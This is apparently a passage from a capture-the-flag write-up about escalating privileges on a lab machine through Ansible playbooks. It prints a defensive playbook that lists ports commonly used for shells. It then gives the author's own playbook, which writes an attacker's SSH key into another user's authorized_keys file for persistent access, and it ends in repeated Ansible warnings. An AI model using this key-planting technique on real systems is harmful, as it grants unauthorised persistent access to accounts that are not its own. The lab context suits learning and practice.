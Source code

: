 The `failed_login` playbook is searching for failed login attempts in the `auth.log` (so, on the machine)

```shell
tomcat@Backtrack:/opt/test_playbooks$ cat suspicious_ports.yml
cat suspicious_ports.yml
---
- name: Check for Suspicious Open Ports on Localhost
  hosts: localhost
  gather_facts: no

  tasks:
    - name: List open ports
      command: "netstat -tuln"
      register: open_ports

    - name: Check and report suspicious open ports
      debug:
        msg: "Suspicious port open: {{ item }}"
      with_items:
        - '9001'
        - '1337'
        - '4444'
        - '6666'
        - '6969'
        - '5555'
        - '31337'
        - '4141'
        - '9000'
      when: "'0.0.0.0:{{ item }}' in open_ports.stdout"
```

The `suspicious_ports` playbook is, as its name suggests, checking for suspicious open ports on the machine using a list of items.

But they are not very useful for us. Instead, we want to make our own ansible playbook :

```shell
---
- name: Add SSH key to wilbur
  hosts: localhost
  tasks:
    - name: Ensure .ssh directory exists
      file:
        path: /home/wilbur/.ssh
        state: directory
        owner: wilbur
        group: wilbur
        mode: 0700

    - name: Add authorized_keys
      copy:
        content: "ssh-rsa [SSH-KEY] user@attack-machine"
        dest: /home/wilbur/.ssh/authorized_keys
        owner: wilbur
        group: wilbur
        mode: 0600
```


[WARNING]: provided hosts list is empty, only localhost is available. Note that
[WARNING]: Skipping plugin (/usr/lib/python3/dist-
[WARNING]: Skipping plugin (/usr/lib/python3/dist-
[WARNING]: Skipping plugin (/usr/lib/python3/dist-
[WARNING]: Skipping plugin (/usr/lib/python3/dist-
[WARNING]: Skipping plugin (/usr/lib/python3/dist-
[WARNING]: Skipping plugin (/usr/lib/python3/dist-
[WARNING]: Skipping plugin (/usr/lib/python3/dist-
[WARNING]: Skipping plugin (/usr/lib/python3/dist-
[WARNING]: Skipping plugin (/usr/lib/python3/dist-
[WARNING]: Skipping plugin (/usr/lib/python3/dist-